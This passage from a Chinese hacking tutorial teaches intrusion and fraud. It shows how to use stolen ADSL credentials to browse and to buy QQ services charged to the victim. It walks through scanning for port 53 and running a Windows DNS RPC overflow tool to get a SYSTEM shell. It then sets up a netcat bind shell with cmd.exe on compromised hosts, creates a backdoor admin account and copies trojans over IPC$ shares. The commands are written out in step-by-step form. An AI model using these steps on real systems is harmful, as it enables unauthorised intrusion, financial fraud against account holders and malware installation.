不太一样，但是也相差不多。

### 1.3.3 ADSL入侵后的利用

得到别人的ADSL帐号密码的两个用途我在前面已经介绍过了，使用对方的ADSL帐号来上网就不用我多说了，只需要在XP系统拨号登录ADSL的时候换上扫描得来的ADSL帐号密码就可以了。那么如何通过ADSL来给自己充点卡或者充QQ服务呢？这个就要看当地的ISP服务商和QQ腾讯的合作关系了，当地信息港应该会有相应的说明信息。

由于山东网通的充值服务都在宽带中国，所以我们使用IE打开“http://kd.bdchina.com”选择你想充值的类型，如图1.49，比如我们选择QQ会员。点击后页面就自动跳转到了“http://cnc.qq.com/sd/”，如图1.50，明显是网通公司和腾讯公司一起给山东网通的用户开发的。

首先点击中间的“登录”按钮，输入自己的QQ号和密码登录，我就选择QQ会员来进行演示，点击“开通”按钮，页面又跳转到了“QQ会员支付中心”，可以看到左侧列出的支付方式，我们选择其中的“ADSL宽带开通”选项，由于我是山东网通，于是就选择右侧的“山东”那个选项，如图1.51，然后点击下一步，此时宽带中国让你登录用户，由于我是直接使用别人的ADSL帐号上网的，所以只需要在帐号类型中选择“宽带一点通”，然后点击“登录”按钮就可以让宽带中国自动检测我的ADSL账号并登录了，如图1.52。接着页面又跳转到了“宽带中国订购支付”来确认订购信息，直接点击“确定”按钮就可以完成订购了。“自动续订服务”的意思就是由于QQ会员是每个月10块钱，那么在一个月的使用期到期后，系统会自动再续订下个月的订单，如图1.53。

## 第二章 秒杀入侵的溢出攻击

小菜们是不是经常抱怨通过弱口令抓到的肉鸡越来越少了？这是因为大家的安全意识都提高了，都设置了比较强壮的密码，利用弱口令入侵的成功率自然也就没有以前那么高了。不过即使没有弱口令我们同样可以使用别的方法来入侵，那就是直捣黄龙的“远程溢出”攻击，在众多的入侵方法中就要数溢出攻击最立竿见影，可谓是直接秒杀对方的主机系统。

那么何谓溢出呢？溢出更确切的说法是“缓冲区溢出”，简单的解释就是程序对接受的输入数据没有进行有效的检测而导致错误，后果可能是造成程序崩溃或是执行攻击者的命令。UNIX/Linux和Windows系统本身以及其上的许多应用程序都是由C语言编写的，C/C++语言对数组下标访问越界不做检查，这是引起缓冲区溢出的根本原因。在某些情况下，如果用户输入的数据长度超过应用程序给定的缓冲区，就会覆盖其它数据区，这就是“缓冲区溢出”。目前网上公布的溢出程序基本上都是溢出成功后得到一个具有系统权限的CMDSHELL，也有一些是溢出成功后自动从网上下载某个特定的木马程序并执行，攻击者在得到的CMDSHELL下添加管理员账号，或是制作后门，来对电脑进行控制，或者是直接使用木马来对电脑进行控制等。

溢出攻击的严重性就在于大部分系统设计者在开始设计的时候都无法完全预料和防范，因此任何具有一定复杂性的服务系统都有可能存在被溢出的漏洞，只是有的已经被发现，有的尚未被发现而已。从Serv-U、IIS到Apache，几乎世界上通用的网络服务系统，都曾出现过缓冲区溢出漏洞，而且每个漏洞都是高危险的，也就是能够被攻击者获得对服务系统的控制权。

### 2.1 Windows DNS溢出攻击

DNS溢出漏洞会影响Windows2000 Server和Windows2003 Server系统，只需要将特殊构造的RPC（远端过程调用）封包传递到受影响的系统，就可以成功入侵对方了。这个漏洞并不影响Windows2000 Professional、WindowsXP和Windows Vista系统，因此利用这个漏洞可以专门来抓服务器肉鸡。

我们要如何寻找能够被溢出的服务器呢？因为DNS服务默认使用的是53号端口，因此我们只需要扫描寻找开放了53端口的主机就行了，没有开放的就表示对方没有安装DNS服务，自然也就没办法进行溢出攻击了。我们使用经典的端口扫描工具SuperScan来进行扫描，打开SuperScan，点击最右上角的“端口列表”，因为我们只需要扫描53号端口，所以就用鼠标双击勾选上53端口，其它的端口都不用选择，如图2.1，然后点击“确定”按钮返回到SuperScan的主界面，在“扫描类型”中选择“扫描所有在列表中选择的端口”，然后输入想扫描的“起始”和“结束”IP地址段。其实我们还有一种更简单的端口选择方法，就是在SuperScan的主界面直接选中“所有端口定义”，然后在后边的两个空白框中全都输入53就行了。对于扫描类型的设置大家要注意一下，SuperScan提供了非常灵活的扫描方式：

- 1、扫描所有列表中的端口：也就是扫描列表中设置的全部端口。
- 2、扫描所有在列表中选择的端口：可以针对某些特殊的需要，在端口列表中选择多个不连续的特定端口来进行扫描。
- 3、列表中定义：可以扫描列表中某段连续的端口。
- 4、所有端口定义：可以扫描列表中所有连续的端口。

“只扫描PING后有回应的”这个选项可以大大提高对IP段的扫描速度，不能PING通的主机会被扫描器认为是未开机或者不存在，也就不需要进行后续的扫描工作了，从而加快了扫描速度。针对某些主机进行了防PING处理，则需要取消掉这个选项，另外提示一下大家：内网中通常会开启PING，外网则通常关闭PING。设置完毕后，点击右侧中间的“开始”按钮就开始扫描了。稍等一会儿扫描结果就会出来了，一共扫描到了六台主机，其中有两台主机开放了53端口，我们就以IP地址为“192.168.0.100”的这台主机来进行攻击测试了，如图2.2。

绝大多数溢出工具都是在CMD下运行的，我们打开一个CMD窗口，直接输入溢出程序的名字，通常程序会默认返回提示帮助信息，其中“Use -s to scan for the target's port: dns -s 1.2.3.4”表示使用S这个参数就可以检测1.2.3.4这个IP上的DNS溢出漏洞。“dns options host [port], example: dns -t2000all 1.2.3.4 1030”表示使用-T来区分对方的操作系统类型，1.2.3.4就是对方的IP地址，1030代表了使用-S参数扫描出来的端口号。

```
dns -s 192.168.0.100
```

我们先执行 dns -s 192.168.0.100 对主机进行特定漏洞端口扫描，“1028: Vulnerability”表示1028号端口存在溢出漏洞，并且把对方系统的版本也检测出来。

## 第二章 秒杀入侵的溢出攻击



图2.3

打出来“OS:window 2000”，不用说这就是Windows2000系统了，如图2.3。再执行 `dns-t 2000all 192.168.0.100 1028` 正式对目标主机进行溢出，“Connection to target host tcp port established”表示成功连接到主机的TCP端口上，“Successfully bound to the vulnerable DCERPC interface”表示已经连接到对方的RPC端口上，“OS fingerprint result: Windows 2000”的意思是系统指纹鉴定对方是Windows2000系统，“Attack sent, check port 1100”的意思是攻击代码已经成功发送，并提示我们检测连接1100端口。当出现最后这句提示语句的时候就意味着我们的攻击已经成功了大半，如图2.4。

## 2.2 万能工具NC的简单使用

说道连接对方主机的某个端口，就可以请出NC来一显身手了，它的功能非常强大，要不然也不会被称为“瑞士军刀”了。NC的全称是“NetCat”，是一把简单易用的基于TCP/IP协议（C/S模型）的“瑞士军刀”，来给大家介绍一下它的几个常用的功能，至于其它的一些功能就由大家自己去发现吧。



图2.4

- 1. 正向连接对方已经开放的某个端口

例如可以使用NC连接WEB服务的80端口，然后再使用GET命令就可以获得WEB服务器的WEB程序种类和版本信息，比如我们执行 `Nc.exe -vv www.51ruankao.cn 80`，也就是



图2.5

连接域名为 `www.51ruankao.cn` 的网站的 80 端口，如图 2.5，可以看出该 WEB 服务器使用的是“nginx”程序，版本为“0.5.33-p3”，而且还可以从中得到域名所对应的 IP 地址（218.241.156.41）。

- 2、在本地监听一个端口，等待对方来连接

有的溢出工具在成功溢出目标系统后会将一个 SHELL 自动返回到我们的电脑上，所以我们就需要在本机上监听一个端口来等待对方的连接。



（注意：如果对方是处在公网中，那么你也得是公网环境，这样对方才能直接找到你的电脑来进行连接）。命令格式为 `Nc.exe -vv -l -p 8000`，也就是在本机的 8000 端口上进行监听，如图 2.6。`-vv` 的意思是显示端口详细的信息；`-l` 参数是监听的端口，监听入站信息；`-p` 参数后跟的是本地端口号。



我们还可以使用 NC 来聊天呢，只需要连接成功后在 CMD 中输入文字即可，按一下回车就会将文字发送到对方了。不光可以文字聊天，还可以用来发送文件。

```
nc -vv -l -p 8000 <C:\mm.exe
```

命令就可以监听 8000 端口并将 C 盘下的 `mm.exe` 传送过去，然后在接收方只需要执行以下命令就可以连接 IP 为 `192.168.1.100` 的主机的 8000 端口，并且将接收到的文件导出保存在 C 盘下的 `111.exe` 中，如图 2.7。

```
nc -vv 192.168.1.100 8000 >>c:\111.exe
```



不过唯一缺憾的是看不到传输的进度，只能依靠文件大小和网络占用来估算了，传送过来的文件只要大小一致就可以关闭 NC 了，如图 2.8。



- 3、在本机监听端口的同时绑定 SHELL

这就相当于一个 TELNET 服务端，当有连接进入时就启动绑定的 SHELL，通常这个命令用在肉鸡上，执行命令 `Nc.exe -l -p 8000 -e cmd.exe`，`-e` 参数的作用就是程序定向，就是在本机的 8000 端口上进行监听并绑定 `cmd.exe`，当有人连接该端口时就可以获得这个 SHELL 了，如图 2.9，如果执行监听的权限为 SYSTEM，那么连接后得到的 CMDSHELL 也是 SYSTEM 权限。

- 4、手工对主机提交数据包

还记不记得“黑客 X 档案”杂志中经常有一些提交自己修改过的数据包的文章，使用的就是 NC 这个小工具提交的。命令为 `Nc.exe -vv 192.168.0.100 80 < yan.txt`，就可以向 IP 为 `192.168.0.100` 的主机的 80 端口提交 `yan.txt` 中的内容了，如图 2.10。



介绍完 NC 的这些常用功能后，我们就可以熟练地使用 NC 的第一个功能连接到被溢出的主机上了。打开一个 CMD 窗口，使用 CD 命令切换到 NC 的目录下，输入 `nc -vv 192.168.0.100 1100` 命令便可以连接到对方（192.168.0.100）的 1100 端口上，连接之后会得到什么呢？会得到溢出工具给我们精心准备好的一个具有 SYSTEM 权限的 CMDSHELL，如图 2.11，然后就可以使用 CMD 命令来控制对方系统了，比如添加管理员帐号、开启 TELNET、开启 3389 等等。

### 2.3 常用上传方式简介

如果只在 CMD 下进行操作可能会有许多小菜感觉到不习惯，如果能给这台主机安装上灰鸽子、PcShare 等木马就好了。要想给对方安装上木马，那就得需要执行木马，执行木马很简单，只需要在溢出得到的 SHELL 中执行就可以了。但是我们的前提条件是要把配置好的木马上传到对方主机中，接下来我就简单介绍一下常见的上传文件的方式。





#### 2.3.1 菜鸟最爱的 IPC$ 共享传送方式

先在溢出得到的 Shell 下建立一个管理员权限的帐号，比如我们建立一个帐号和密码都为 x 的管理员帐号，如图 2.12，然后在本机的 CMD 下与对方进行连接，命令为

```
net use \\192.168.0.100\c$ "x" /user:"x"
```

，使用 x 这个管理员帐号和对方的 C 盘共享建立连接；连接成功后再执行

```
copy c:\mm.exe \\192.168.0.100\c$
```

命令，把本机 C 盘下的 mm.exe 文件拷贝到对方的 C 盘下，如图 2.13。

